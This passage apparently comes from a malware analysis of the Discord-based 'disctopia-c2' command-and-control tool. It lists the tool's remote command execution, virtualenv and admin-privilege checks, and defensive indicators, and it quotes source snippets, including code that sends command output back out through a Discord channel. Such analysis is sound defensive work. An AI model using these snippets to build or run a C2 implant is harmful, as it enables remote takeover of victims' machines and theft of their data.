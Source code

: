 ### CMD

- Description: Execute any command on the host via the agent
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L302
- Indicators:
  - Write the results of the command if they exceed a length of `4000` to the following location: `%temp%\response.txt`

  ```python
  .....
  if len(out) > 4000:
    path = os.environ["temp"] +"\\response.txt"     
    with open(path, 'w') as file:
        file.write(out)
    await context.message.channel.send(f"**Message was too large, sending a file with the response instead**")
    await context.message.channel.send(file=discord.File(path))
    os.remove(path)
  .....
  ```

## Functionalities

### isVM

- Description: Determine if Python is running inside virtualenv
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L33
- Indicators: N/A

### isAdmin

- Description: Determine if its running with admin privileges
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L42
- Indicators:
  - Uses "shell32.dll" function "IsUserAnAdmin" [MSDN](https://docs.microsoft.com/en-us/windows/win32/api/shlobj_core/nf-shlobj_core-isuseranadmin)

    ```python
    def isAdmin():
        try:
            is_admin = (os.getuid() == 0)
        except AttributeError:
            is_admin = ctypes.windll.shell32.IsUserAnAdmin() != 0
        return is_admin
    ```
